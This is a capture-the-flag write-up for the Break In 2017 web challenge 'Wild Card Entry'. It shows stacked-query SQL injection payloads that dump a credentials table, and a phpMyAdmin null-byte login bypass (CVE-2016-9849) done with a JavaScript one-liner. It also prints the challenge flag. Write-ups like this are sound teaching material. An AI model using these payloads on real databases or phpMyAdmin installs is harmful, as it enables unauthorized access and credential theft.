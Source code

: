 # Break In 2017 - Wild Card Entry!


**Category:** Web
**Points:** 100
**Solves:** (TODO)
**Description:**

> Unfortunately, Animesh, even after repetitive efforts, could not get the final invitation to his friend Saumya's birthday party.
> But Animesh did not stop here. He came to know from Anjali (who is attending Saumya's birthday party) that there is a wild card entry in the party, but the key required for that is not known by anyone except Saumya.
> Now interestingly Saumya had kept the details of people coming to the party in a database. Now Animesh tries his luck for the last time to get the 'wild card key' required for the birthday party.

> Can you help Animesh in his last attempt? 

> It is known that Saumya usually checks the details of people coming to the party from: [here](https://felicity.iiit.ac.in/contest/extra/getans/)

## Write-up

by [ironmaniiith](https://github.com/ironmaniiith)

The given link redirects you to a page where when you enter the name of Saumya's friend, give you the details of that particular friend after retrieving it from database. You have to perform an SQL Injection here in order to get the name of a the required table which contains the further detail to solve the question. We had delibrately enabled execution of multiple queries in this. Hence when you submit the query:
```sql
"; show tables;
```
You get to know that there are two tables by the name of `birthday_invite` and `credentials`

Now just enter the query
```sql
"; describe credentials; select * from credentials;
```
And you can see the output
```
username varchar(80) YES
password varchar(80) YES
linktourl varchar(80) YES

root
a64ff1355b8b40f76bc265659eaf680e
https://felicity.iiit.ac.in/contest/extra/phpmyadmin/
```
Clearly the username and password are `root` and `a64ff1355b8b40f76bc265659eaf680e`
Now when you visit the link obtained after SQL Injection, you get a phpMyAdmin page. Interestingly when you enter the above credentials (username and password), you get an unusual error of "Access denied!". Here we had manually disabled the root login which results into the given error.

The solution to this is based on a very new exploit of phpMyAdmin, the further details of which can be found [here](https://www.cvedetails.com/vulnerability-list/vendor_id-784/cvssscoremin-7/cvssscoremax-7.99/Phpmyadmin.html), [#2](https://www.cvedetails.com/cve/CVE-2016-9849/)

Thus when you enter a `NULL` character after `root` in the username, and try to login, you can see that the "Access Denied" error goes and you can successfully login into phpMyAdmin.

Adding NULL character can be done using the following JavaScript
```javascript
document.getElementById('input_username').value = 'root\0'
```

Once you are logged in, you see a database by the name of `useful_info`. Just go the table get_flag inside it and you can see the entry: the_flag_is_07f663cbd03849d23e177a9348058722

Clearly the flag is `07f663cbd03849d23e177a9348058722`
## Other write-ups and resources
* https://github.com/USCGA/writeups/tree/master/online_ctfs/breakin_2017/wild_card_entry
